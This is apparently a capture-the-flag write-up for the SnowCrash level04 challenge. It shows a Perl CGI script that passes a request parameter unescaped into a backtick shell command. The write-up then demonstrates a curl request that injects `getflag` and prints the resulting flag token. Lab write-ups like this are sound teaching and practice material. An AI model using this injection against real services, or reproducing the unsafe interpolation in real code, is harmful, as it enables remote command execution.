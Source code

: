 # Level04

A Perl script named `level04.pl` with **SUID** bit set is present in the home directory. The owner is `flag04`.

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

After inspecting the file and documenting basics on **Perl** language we can guess that it has to do with **CGI**.  
  
**Note**: **CGI**, short for **common gateway interface** lets us pass data to an external program such as PHP, Python, Perl trough a web server. The response is then transmitted back trough the webserver.  
  
Who say **CGI**, say **request**...  
  
The script consist's of:  
- A comment with a **host:port** `localhost:4747`.  
- A function definition `sub x` that takes a parameter, stores it in `$y` variable and prints the result of `` `echo $y 2>&1` ``. Note that the command is **surrounded in backquotes**.  
- A call to `sub x` function taking a parameter named `x` wich is passed trough **CGI**.  
  
Making a `POST` request to `localhost:4747` with `x=10` as body proves us that the script is executed trough **CGI**. Our value `10` is present in the response's body.

```
level04@SnowCrash:~$ curl -X POST -d 'x=10' http://localhost:4747
10
```

**Note:** A `GET` request is also a valid approach since **Perl's CGI module** handles both `POST` and `GET` variables. When using the `param()` method, `POST` takes precedence over `GET`. For example, if `x` is present in the **URL** as a **query parameter** and `x` is also passed in the request's body, the one in the body will be returned by `param()`. In this case, you can access the `x` passed trough query parameters with the `url_param('x')` method.  
  
Now, trying to **escape the backquotes** in the function to inject an arbitrary command is probably a good idea. Maybe inserting `getflag` as follows `` `getflag` ``?  
  
While parsing, the first pair of quotes encountered `` `echo ` `` will be evaluated to `\n` wich is swapped out in command substitution, then the `` ` 2>/dev/null` `` command will be evaluated and expanded to nothing. Lastly, the whole resulting command is evaluated.  
  
At the start, the command would look like this: `` `echo `getflag` 2>/dev/null` ``  
And it would expand to: `getflag`

```
level04@SnowCrash:~$ curl -X POST -d 'x=`getflag`' http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

